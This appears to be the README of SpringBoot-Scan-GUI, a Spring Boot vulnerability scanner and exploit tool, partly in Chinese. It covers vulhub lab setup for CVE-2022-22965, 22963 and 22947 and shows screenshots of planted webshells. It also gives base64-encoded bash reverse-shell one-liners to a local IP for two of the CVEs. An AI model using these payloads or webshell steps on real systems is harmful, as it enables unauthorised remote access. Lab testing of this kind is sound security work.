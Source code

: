 # SpringBoot-Scan-GUI by 13exp

Windows:<br> 
python SpringBoot-Scan-GUI.py<br>
直接执行release文件夹内exe程序<br>
<br>
Linux:<br>
python3 SpringBoot-Scan-GUI-Linux.py<br>
sudo wine SpringBoot-Scan-GUI.exe<br>
<br>
vulhub 漏洞测试环境搭建<br>
git clone https://github.com/vulhub/vulhub.git<br>
[docker install command]<br>
sudo apt-get install docker.io<br>
sudo apt install docker-compose<br><br>
CVE-2022-22965<br>
cd /vulhub/CVE-2022-22965<br>
sudo docker-compose up -d<br><br>
CVE-2022-22963<br>
cd /vulhub/CVE-2022-22963<br>
sudo docker-compose up -d<br><br>
CVE-2022-22947<br>
cd /vulhub/CVE-2022-22947<br>
sudo docker-compose up -d<br><br>
如果报错，自行修改.yml中映射的端口号<br><br>
Win使用效果图<br>
CVE-2022-22965<br>
vulhub<br>
![image](https://user-images.githubusercontent.com/73600604/218236128-21bf37e5-e8c2-45de-9f9e-50fbe8ad1574.png)
![image](https://user-images.githubusercontent.com/73600604/218236233-68986684-4698-46d0-a36e-d95d37a2620b.png)
![image](https://user-images.githubusercontent.com/73600604/218236243-0d6b2eb4-6b2d-4c88-91ea-be4a5760675d.png)
<br>内置shell
![image](https://user-images.githubusercontent.com/73600604/218236608-102b9342-1f92-4268-88de-9f35c5de22ce.png)
<br>aabysszg-shell
![image](https://user-images.githubusercontent.com/73600604/218236258-348c30f4-7a5e-43e9-8f12-0f4eb1f27e99.png)
<br>13exp-shell
![image](https://user-images.githubusercontent.com/73600604/218236580-097727c0-cd79-47bc-af8a-3b509324ec3e.png)
<br>春秋云境
![image](https://user-images.githubusercontent.com/73600604/218236469-833740d2-b754-46d8-848d-89236f5ec72b.png)
<br>内置shell
![image](https://user-images.githubusercontent.com/73600604/218236715-9815addd-2502-4e6c-a11c-5ccd054a57ac.png)
<br>13exp-shell
![image](https://user-images.githubusercontent.com/73600604/218236734-655bcfe4-0eac-433d-aa66-07ad51af9fbb.png)
<br>aabysszg-shell
![image](https://user-images.githubusercontent.com/73600604/218236497-11401635-b171-4536-9faa-f431324612a9.png)
![image](https://user-images.githubusercontent.com/73600604/218236516-71dae6a1-3f59-459c-82c8-b49c3d191f6c.png)
<br>CVE-2022-22963
<br>vulhub<br>
<br>准备反弹shell
<br>bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
<br>编码内容→bash -i >& /dev/tcp/192.168.0.105/8888 0>&1
<br>kali监听<br>
![image](https://user-images.githubusercontent.com/73600604/218240588-a377065e-c4fc-403c-950d-0e688b7e446c.png)
<br>漏洞利用
![image](https://user-images.githubusercontent.com/73600604/218240553-009588c6-be8f-4bbd-9fe8-d3e8cc001795.png)
![image](https://user-images.githubusercontent.com/73600604/218240609-246afc87-e671-4565-bf68-f3dda7360961.png)
<br>春秋云境
![image](https://user-images.githubusercontent.com/73600604/218236995-3ac37c9f-f7e6-478a-a72d-f7951c547047.png)
<br>CVE-2022-22947
<br>vulhub
<br>同样准备反弹shell
<br>bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODkgMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
<br>编码内容→bash -i >& /dev/tcp/192.168.0.105/8889 0>&1
<br>kali监听<br>
![image](https://user-images.githubusercontent.com/73600604/218240722-f36a7ac5-b2c3-4043-9b9e-54be43052799.png)
<br>漏洞利用
![image](https://user-images.githubusercontent.com/73600604/218240756-52bb0691-bcbe-4057-b502-716d86aa2a1d.png)
![image](https://user-images.githubusercontent.com/73600604/218241387-1c6b9198-3e76-434b-8a8d-96533613cd26.png)
<br>春秋云境
![image](https://user-images.githubusercontent.com/73600604/218237116-b3897e7c-2c88-45c6-97ad-276c3e7be052.png)
